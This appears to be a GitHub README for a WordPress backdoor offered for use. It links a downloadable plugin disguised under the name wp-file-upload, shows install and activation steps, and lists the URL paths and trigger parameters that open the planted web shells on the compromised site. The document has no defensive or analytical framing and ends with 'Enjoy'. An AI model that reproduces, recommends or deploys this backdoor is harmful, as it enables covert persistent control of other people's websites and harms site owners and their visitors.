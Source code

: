 # **Wordpress Uploading Backdoor From Plugin**
[**Download Plugins**](https://github.com/haxorstars/wordpress-plugin-backdoor/files/12341200/wp-file-upload.zip)

**Step**
**1** <p>Installing Plugins</p>
![Install Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/install-plugin.PNG)

**Step**
**2** <p>Activate Plugins</p>
![Activate Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/activate-plugin.PNG)

**Step**
**3** <p>Check Plugins Active</p>
![Check Plugins](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/check-plugin.PNG)

**Step**
**4** <p>Exploit</p>

    /wp-content/plugins/wp-file-upload/wp-file-upload.php?nulz&ganteng
    /wp-content/plugins/wp-file-upload/index.php?nulz=ganteng
    /wp-content/plugins/wp-file-upload/simple.php
    /wp-content/plugins/wp-file-upload/x.php
    /wp-content/plugins/wp-file-upload/xx.php

![Exploit](https://raw.githubusercontent.com/haxorstars/wordpress-plugin-backdoor/main/example/wp-exploit.PNG)

# Enjoy

